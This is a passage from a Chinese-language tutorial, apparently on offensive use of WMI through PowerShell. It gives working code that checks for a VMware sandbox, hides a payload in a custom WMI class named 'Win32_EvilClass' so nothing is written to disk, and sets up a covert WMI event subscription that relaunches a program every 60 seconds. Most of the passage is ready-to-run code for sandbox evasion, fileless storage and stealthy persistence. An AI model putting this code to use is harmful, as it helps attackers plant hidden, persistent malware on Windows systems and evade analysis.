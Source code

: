 （2）判断虚拟机进程

```
$VMwareDetected = $False
$VMAdapter = Get-WmiObject Win32_NetworkAdapter -Filter 'Manufacturer LIKE
"%VMware%" OR Name LIKE "%VMware%"'
$VMBios = Get-WmiObject Win32_BIOS -Filter 'SerialNumber LIKE "%VMware%"'
$VMToolsRunning = Get-WmiObject Win32_Process -Filter 'Name="vmtoolsd.exe"'
if ($VMAdapter -or $VMBios -or $VMToolsRunning) 
{ $VMwareDetected = $True 
"in vm"
} 
else
{
"not in vm"
}

```

### 3、存储payload

【管理员权限】

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,
$null)
$StaticClass.Name = 'Win32_EvilClass'
$StaticClass.Put()
$StaticClass.Properties.Add('EvilProperty' , "This is payload")
$StaticClass.Put() 

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/c6f7794f4e94b2191220fcb4705cc4992b46df68.jpg)

**_Tips：_**

```
可加密存储于此位置，执行时解密运行，达到硬盘不存文件的效果

```

### 4、隐蔽定时启动程序

【管理员权限】

```
$filterName = 'BotFilter82'
$consumerName = 'BotConsumer23'
$exePath = 'C:\Windows\System32\notepad.exe'
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=

$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @

{Name=$consumerName;ExecutablePath=$exePath;CommandLineTemplate=$exePath}
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=

$WMIEventFilter;Consumer=$WMIEventConsumer}

```

